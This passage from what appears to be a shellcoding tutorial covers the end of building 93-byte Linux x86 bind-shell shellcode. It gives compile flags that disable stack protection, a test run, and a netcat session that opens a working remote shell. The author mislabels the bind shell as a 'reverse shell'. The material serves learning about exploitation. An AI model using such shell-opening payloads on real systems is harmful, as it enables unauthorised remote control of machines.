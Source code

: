 Lets run it
```
  $ gcc -o shell_test -fno-stack-protector -z execstack -m32 shell_test.c
  $ ./shell_test
Shellcode Length: 93

```
And now on another shell
```
  $ nc localhost 5000
ls
bind
bind.o
bind_shell
bind_shell.c
bind_shell.nasm
shell_test.c
shell_test

```
Great our reverse shell works and in 93 bytes which is not bad but I have found
shellcode on shell-storm which does this extact function in 89 bytes. I may work
on this to get it smaller but I think this is good enough for now.

Note: I had gotten this down to 87 bytes when running as a straight assembly
program however when running in the C skeleton a few things became apparent and
I needed to modify my code these were

1. I had to xor EDI as it was not 0x0 by the time my code go executed
2. I had to re xor eax in the execve code as this was not 0 by the time my code
got executed

Cheers and happy shellcoding!


[socket]: https://linux.die.net/man/7/socket  "Socket Man page docs"
[bind]: https://linux.die.net/man/7/bind  "Bind Man page docs"
[listen]: https://linux.die.net/man/7/listen  "listen Man page docs"
[bind]: https://linux.die.net/man/7/bind  "bind Man page docs"
[accept]: https://linux.die.net/man/7/accept  "accept Man page docs"
[dup2]: https://linux.die.net/man/7/dup2  "dup2 Man page docs"
[execve]: https://linux.die.net/man/7/execve  "execve Man page docs"
